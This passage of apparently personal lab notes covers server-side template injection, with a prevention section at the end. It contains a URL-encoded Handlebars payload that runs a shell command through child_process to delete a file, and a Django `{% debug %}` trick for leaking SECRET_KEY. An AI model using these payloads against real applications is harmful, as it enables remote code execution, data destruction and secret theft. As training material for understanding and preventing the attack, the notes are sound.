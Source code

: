 ```java
    {{/with}}
  {{/with}}
{{/with}}
```
After URL encoding the payload
```
%7b%7b%23%77%69%74%68%20%22%73%22%20%61%73%20%7c%73%74%72%69%6e%67%7c%7d%7d%0a%20%20%7b%7b%23%77%69%74%68%20%22%65%22%7d%7d%0a%20%20%20%20%7b%7b%23%77%69%74%68%20%73%70%6c%69%74%20%61%73%20%7c%63%6f%6e%73%6c%69%73%74%7c%7d%7d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%75%73%68%20%28%6c%6f%6f%6b%75%70%20%73%74%72%69%6e%67%2e%73%75%62%20%22%63%6f%6e%73%74%72%75%63%74%6f%72%22%29%7d%7d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0a%20%20%20%20%20%20%7b%7b%23%77%69%74%68%20%73%74%72%69%6e%67%2e%73%70%6c%69%74%20%61%73%20%7c%63%6f%64%65%6c%69%73%74%7c%7d%7d%0a%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0a%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%75%73%68%20%22%72%65%74%75%72%6e%20%72%65%71%75%69%72%65%28%27%63%68%69%6c%64%5f%70%72%6f%63%65%73%73%27%29%2e%65%78%65%63%28%27%72%6d%20%2f%68%6f%6d%65%2f%63%61%72%6c%6f%73%2f%6d%6f%72%61%6c%65%2e%74%78%74%27%29%3b%22%7d%7d%0a%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0a%20%20%20%20%20%20%20%20%7b%7b%23%65%61%63%68%20%63%6f%6e%73%6c%69%73%74%7d%7d%0a%20%20%20%20%20%20%20%20%20%20%7b%7b%23%77%69%74%68%20%28%73%74%72%69%6e%67%2e%73%75%62%2e%61%70%70%6c%79%20%30%20%63%6f%64%65%6c%69%73%74%29%7d%7d%0a%20%20%20%20%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%7d%7d%0a%20%20%20%20%20%20%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0a%20%20%20%20%20%20%20%20%7b%7b%2f%65%61%63%68%7d%7d%0a%20%20%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0a%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0a%20%20%7b%7b%2f%77%69%74%68%7d%7d%0a%7b%7b%2f%77%69%74%68%7d%7d
```
### Server-side template injection with information disclosure via user-supplied objects
Fuzz and find the following payload works in the field edit template of the product:  `{% debug %}`
![[file-20250508232740156.png]]
Studying the settings option from the [django documentation](https://docs.djangoproject.com/en/5.1/ref/settings/#secret-key) there is `SECRET_KEY` option that provides [cryptographic signing](https://docs.djangoproject.com/en/5.1/topics/signing/).
![[file-20250508232537056.png]]
### Server-side template injection in a sandboxed environment

![[file-20250508235107128.png]]
Notice that we don't have an article object so we reference the product object of the Java class.
![[file-20250508235137426.png]]
![[file-20250508235202845.png]]

![[file-20250508235245339.png]]
Now do it the portswigger way by nesting all the `Java classes`
![[file-20250508234243672.png]]
![[file-20250508234414239.png]]
###
## Prevention
- Logic-less template engines ([Mustache](https://mustache.github.io/), [Handlebars](https://handlebarsjs.com/)) prevent code execution by supporting only variable substitution without logic statements, filters, or method calls, making them inherently resistant to SSTI attacks.
- Context-specific output encoding neutralizes template syntax by applying appropriate encoding (HTML, JavaScript, CSS, etc.) based on where user input appears in the application.
- Input validation should reject or sanitize inputs containing template delimiters like `{{`, `{%`, `<%` before they reach template processing.
- Template sandboxing configures engines with restricted environments using features like **Jinja2's** `SandboxedEnvironment` or **Twig's** sandbox extension to limit accessible objects and methods.
- **Containerization** isolates template rendering in `Docker` containers with minimal privileges: no network access, read-only filesystems, memory/CPU limits, and restricted system calls.